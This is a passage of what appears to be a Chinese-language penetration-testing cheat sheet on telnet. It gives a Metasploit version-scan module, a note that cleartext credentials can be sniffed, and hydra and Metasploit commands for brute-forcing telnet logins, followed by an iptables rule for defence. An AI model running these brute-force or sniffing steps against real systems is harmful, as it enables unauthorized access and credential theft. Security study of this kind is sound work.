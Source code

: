 -   /etc/issue.net
-   msf
    -   use auxiliary/scanner/telnet/telnet\_version

### [](#%E4%BF%AE%E6%94%B9%E9%BB%98%E8%AE%A4%E7%AB%AF%E5%8F%A3-1)修改默认端口

-   /etc/services
-   sudo /etc/init.d/xinetd restart

### [](#%E9%80%9A%E8%BF%87%E5%97%85%E6%8E%A2%E7%AA%83%E5%8F%96%E5%87%AD%E6%8D%AE)通过嗅探窃取凭据

明文传输，可以嗅探

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200510144359.png-water_print](assets/1699409321-ee5fc5dcb02075668a11c39890daaed4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200510144359.png-water_print")

### [](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3)暴力破解

#### [](#hydra-1)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>hydra -v -L user.txt -P pass.txt telnet://IP<br>``` |

#### [](#msf-5)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```cmd<br>use auxiliary/scanner/telnet/telnet_login<br>set rhost<br>set stop_on_success true<br>set user_file user.txt<br>set pass_file pass.txt<br>run<br>``` |

### [](#%E4%BF%9D%E6%8A%A4-telnet-%E5%85%8D%E5%8F%97%E6%9A%B4%E5%8A%9B%E6%94%BB%E5%87%BB)保护 telnet 免受暴力攻击

-   将允许来自 IP 地址 192.168.1.1 的流量访问端口 23 上的 telnet 服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>sudo iptables -A INPUT -s 192.168.1.1 -p tcp --dport 23 -j ACCEPT<br>``` |

-   drop 掉来自端口 23 上其它 IP 地址的流量
